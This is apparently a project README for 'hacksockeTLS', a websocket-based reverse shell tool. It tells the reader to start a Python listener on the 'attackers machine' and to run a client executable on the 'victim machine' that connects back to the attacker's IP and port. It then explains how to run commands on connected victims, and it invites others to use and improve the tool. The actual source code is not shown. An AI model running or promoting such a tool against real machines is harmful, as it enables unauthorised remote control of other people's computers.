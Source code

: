 ```
  _                _                   _        _ _______ _       _____ 
 | |              | |                 | |      | |__   __| |     / ____|
 | |__   __ _  ___| | _____  ___   ___| | _____| |_ | |  | |    | (___  
 | '_ \ / _` |/ __| |/ / __|/ _ \ / __| |/ / _ \ __|| |  | |     \___ \ 
 | | | | (_| | (__|   <\__ \ (_) | (__|   <  __/ |_ | |  | |____ ____) |
 |_| |_|\__,_|\___|_|\_\___/\___/ \___|_|\_\___|\__||_|  |______|_____/ 
```

A websocket based reverse shell tool.

# To use:

On the attackers machine use the python server

`python3 hacksock-srv.py --host [Listening IP] --port [Listening Port] [--ssl]`

On the victim machine, either alter the source so no arguments are required or run the below:

`hacksock.exe [attackers IP] [port]`

Use `ls` to see all websocket connections.

Use `[id]:[Command]` to run commands i.e. if only one connection then `1:dir` will run dir on the first connection listed in `ls`.

Use `exit` to end the server or `1:exit` to end the client connection `1`.

# Bugs:

- Code was written in a field therefore full of bugs
- The server accepts multiple connections however functionality is hit and miss :P
- Feel free to use and improve. #fixmycode

# Branches:
- plaintext: Plain-text websocket client
- secure/main: SSL websocket client

The python server supports both as detailed using the `--ssl` switch.